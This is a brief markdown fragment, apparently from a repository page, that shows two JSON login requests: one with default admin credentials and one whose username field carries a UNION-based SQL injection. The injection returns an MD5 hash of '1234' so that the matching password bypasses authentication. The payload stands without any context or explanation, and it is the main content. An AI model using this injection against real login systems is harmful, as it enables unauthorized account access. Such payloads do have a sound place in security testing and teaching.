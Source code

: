
## Login
```json
{
    "username": "admin",
    "password": "adminpassword"
}
```

```json
{
    "username": "admin ' UNION ALL SELECT 1, 'admin', '81dc9bdb52d04dc20036dbd8313ed055",
    "password": "1234"
}
```